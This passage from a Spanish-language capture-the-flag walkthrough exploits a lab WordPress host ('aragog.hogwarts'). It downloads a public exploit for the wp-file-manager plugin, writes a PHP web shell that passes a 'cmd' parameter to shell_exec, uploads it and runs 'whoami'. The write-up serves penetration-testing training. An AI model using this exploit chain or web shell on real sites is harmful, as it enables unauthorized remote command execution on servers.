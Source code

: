 Explicación: podemos hacer enumeración manual con herramientas como gobuster, pero para ir al grano, podemos usar la herramienta *wpscan*. Hemos encontrado multitud de vulnerabilidades en los plugins. Tomando una de ejemplo, podemos acudir al link donde nos muestra una prueba de concepto de su explotación. Si vamos a la url `https://wpscan.com/vulnerability/e528ae38-72f0-49ff-9878-922eff59ace9` se nos muestra un enlace a un exploit de python el cual podemos traernos a local de la siguiente manera

Acción:

```bash
wget https://ypcs.fi/misc/code/pocs/2020-wp-file-manager-v67.py
```

Acción: este script usa un archivo `payload.php` que tendremos que crearnos en el directorio donde ejecutemos el script

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
?>
```

Explicación: creamos un archivo `payload.php` que contiene un script en php donde se nos permite ejecutar comandos a través del parámetro `cmd`

Acción:

```bash
python3 2020-wp-file-manager-v67.py http://wordpress.aragog.hogwarts/blog/
```

Resultado:

```bash
Just do it... URL: http://wordpress.aragog.hogwarts/blog//wp-content/plugins/wp-file-manager/lib/php/connector.minimal.php
200
Success!?
http://wordpress.aragog.hogwarts/blog//blog/wp-content/plugins/wp-file-manager/lib/php/../files/payload.php
```

Explicación: ejecutamos el script, y vemos que se ha subido con éxito el archivo y se nos indica la ruta. Pero OJO, porque la ruta esta mal, hay una errata ya que por defecto nos duplica la ruta `/blog/` hay que borrar una para que quede bien, así: `http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php`

Acción:

```bash
http://wordpress.aragog.hogwarts/blog/wp-content/plugins/wp-file-manager/lib/files/payload.php?cmd=whoami
```

Resultado:

```html
www-data
```
